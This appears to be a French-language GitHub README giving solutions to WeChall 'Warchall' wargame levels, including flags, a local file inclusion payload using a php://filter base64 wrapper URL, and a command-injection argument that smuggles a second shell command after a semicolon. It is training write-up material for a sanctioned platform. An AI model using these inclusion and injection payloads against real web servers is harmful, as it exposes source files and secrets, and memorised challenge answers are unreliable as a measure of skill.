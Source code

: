 # Wechall_SYS1
## Training: Warchall - The Beginning
##### Ce repository contient les solutions aux différents niveaux du challenge Wechall_SYS1. 

La commande `ls -R` permet de lister de manière récursive les fichiers et les répertoires dans un répertoire. Cette commande permet d'avoir une emsemble de path pour les soltions avec les bonnes permissions.
    
1. **Level 0:**
   
   + La solution pour le Level 0 est :

   `cat /home/level/00_welcome`

2. **Level 1:**
   
   + La solution pour le Level 1 est :
     
   ` cd /home /level/01_choice_tree` .La soution est dans `cd. /blue/hats/grey/soltion/patience`

   `cat SOLUTION.txt`
   
3. **Level 2:**
   
   + La solution pour le Level 2 est :

  `cd / home/level/02/.porb$`
  `cat .solution`

4. **Level 3:**
   
   + La solution pour le Level 3 est :

   `cd /home/level/03$` puis avec la commande `ls -la`
   `cat .bash_history`

5. **Level 4:**
   
   + La solution pour le Level 4 est "AndOfCourseIDoKnowChown".

   `~/level/04_kwisatz$`
   `cat README2.md`

6. **Level 5:**
   
   + La solution pour le Level 3 est :

   `cd /home/level/05_privacy$` et avec la commande `ls -la`
   `cat README.md`

## 	Warchall: Live LFI && Warchall: Live RFI : Level 14&15

  ##### RFI (Remote File Inclusion) et LFI (Local File Inclusion) sont des vulnérabilités de sécurité liées à la gestion des fichiers dans les applications web.
  
### 1.LFI (Local File Inclusion) Challenge

+ Acceder au lien du challenge `Live LFI`
  
+ Acceder à la page `https://lfi.warchall.net/` et de choisir une langue UK ou DE
  
+ Une fois avoir fait cet etape, URL est ainsi `https://lfi.warchall.net/index.php?lang=de `
  
  - Avec le LFI qui permet l'inclusiion de fichiers locaux et pour extraire cette vulnerabilté, il faut utliser `php://filter` mais dans notre cas, nous voulons avoir la `solution.php`. Ainsi voici les demarches :
    
    - `https://lfi.warchall.net/index.php?lang=` en supprimant `de`
    - Le wrapper `php://filter/convert.base64-encode/resource=` avec `solution.php` comme cible
    - Nous allons ainsi executer `https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php`
    - En sortie, nous aurons un code en Base64 avec la methode `php://filter/convert.base64-encode/resource=`
      
+ Le code obtenu est  `PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcgc2kgbmFlciE8L3ByZT4KPHByZSBzdHlsZT0iY29sb3I6I2ZmZjsiPnRoZSBmbGFnIGlzIG5lYXIhPC9wcmU+CjwvYm9keT4KPC9odG1sPgo8P3BocCAgICAgICAgICAgICAgICAgICMgICBZT1VSX1RST1BIWSAKcmV0dXJuICdTdGVwcGluU3RvbmVzNDJQaWUnOyAjIDwtwrQgPz4K`

+ Decodage code base64
  - Le premier methode, c'est avec la commande
    ```bash
      echo 'PGh0bWw+Cjxib2R5Pgo8cHJlIHN0eWxlPSJjb2xvcjojMDAwOyI+dGVoIGZhbGcg...' | base64 -d
      ```
  - Le deuxieme methode c'est avec les online Decode and Encode Base64 comme sur (https://www.base64decode.org/) . Nous pouvons ainsi obtenier un code en HTML et Php comme solution :
 
```   
<html>
<body>
<pre style="color:#000;">teh falg si naer!</pre>
<pre style="color:#fff;">the flag is near!</pre>
</body>
</html>
<?php                  #   YOUR_TROPHY 
return 'SteppinStones42Pie'; # <-´ ?>
```

### 2.RFI (Remote File Inclusion) Challenge

+ Acceder au lien du challenge `Live RFI`
+ Acceder à la page `https://rfi.warchall.net/` et de choisir une langue EN ou DE
+ Une fois avoir fait cet etape, URL est ainsi `https://rfi.warchall.net/index.php?lang=en`
  
    - Avec le RFI qui permet d'exploiter une faille pour inclure à distance des fichiers sur le serveur, généralement des scripts, pour exécuter du code à distance sur le serveur Web. Il faut également utliser `php://filter` qui est une fonctionnalité de PHP qui permet de manipuler et de filtrer des flux de données
    - `https://rfi.warchall.net/index.php?lang=en` en supprimant `en`
    - Il faut inserer le filtre `https://rfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php`
    - Nous pouvons ainsi obtenir un code en base64

+ Le code obtenu est `PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K `

+ Decodage code base64 avec la commande ou les online Decode and Encode Base64:
  
  ```bash
      echo 'PGh0bWw+Cjxib2R5Pgo8cHJlPk5PVEhJTkcgSEVSRT8/Pz88L3ByZT4KPC9ib2R5Pgo8L2h0bWw+CgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKCgoKICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICA8P3BocCByZXR1cm4gJ0xvd19INE5HSU5HX0ZydWl0JzsgPz4K ' | base64 -d
  ```
  
 ```  
<html>
<body>
<pre>NOTHING HERE????</pre>
</body>
</html>
<?php return 'Low_H4NGING_Fruit'; ?>
 ```

+ Nous pouvons ainsi obtenier un code en HTML et Php comme solution.



## Warchall: Choose your Path `/home/level/10/`

+ il faut acceder au level 10 par la commande `cd /home/level/10_choose_your_Path`
  
+ dans ~/home/level/10_choose_your_Path$ , if faut voir les contenu avec `ls -la`
+ Il faut acceder et executer fichier `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` et `cd ~`
  
+ `cat solutionPath1.txt` pour voir le contenu du fichier solutionPath1.txt
  
+ L'execution du script `./charp`
  
+ `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` est une injection des commandes après le point-virgule dans une commande shell.

+ `./charp "solution.txt; cat solution.txt > ~/solutionPath1.txt" `
  
   - `./charp ` : Cela exécute le fichier exécutable appelé "charp" dans le répertoire courant `./`
   - ` "solution.txt; cat solution.txt > ~/solutionPath1.txt" ` : C'est l'argument fourni à la commande "charp".
      - `solution.txt` : C'est une chaîne de caractères représentant un fichier appelé "solution.txt"
      - ` cat solution.txt > ~/solutionPath1.txt ` : C'est une deuxième commande qui sera exécutée après le point-virgule. Elle utilise la commande cat pour afficher le contenu du fichier "solution.txt" et redirige la sortie (>) vers un nouveau fichier appelé "solutionPath1.txt" dans le répertoire personnel de l'utilisateur `~`

        
